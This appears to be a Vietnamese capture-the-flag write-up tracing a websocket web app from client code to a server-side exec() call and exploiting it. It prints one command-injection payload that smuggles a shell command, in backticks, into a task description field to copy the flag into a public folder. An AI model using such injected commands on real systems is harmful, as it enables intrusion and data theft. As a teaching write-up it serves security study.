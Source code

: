 checkpoint
![image](img/img1.jpeg)
# 1. Brainstorm
## Hướng tiếp cận

Hướng tiếp cận là đi từ file index.js ở client-side tới wsHandler.js và database.js ở server-side

Ở index.js ta thấy rằng webapp này sử dụng websocket để trao đổi giữa client và server

![image](img/img2.png)

Hàm formHandler là hàm lấy giá trị từ form và gửi tới websocket

![image](/img/img3.png)

Dữ liệu này sẽ được xử lý ở wsHandler.js 

![image](/img/img4.png)

#### Ở action là add thì trường description và title sẽ được nối chuỗi trực tiếp vào bằng Template Strings và không có filter gì cả → Có thể khai thác

#### Ta thấy biến task chứa data được nối chuỗi vào sẽ được truyền vào addTask bởi đối tượng db (instance của class database) → Nhảy tới database.js.

#### Khi vào database.js thì ta thấy task sẽ được truyền vào hàm exec() (1 hàm nguy hiểm) → Bingo

![image](/img/img5.png)

# 2. Exploit

## Payload

{"action":"add","title":"a","description":"a `cp /flag /ws/static/hung123.txt`"}

## Exploit ở local

![image](/img/img6.png)

![image](/img/img7.png)

## Exploit ở remote

![image](/img/img8.png)
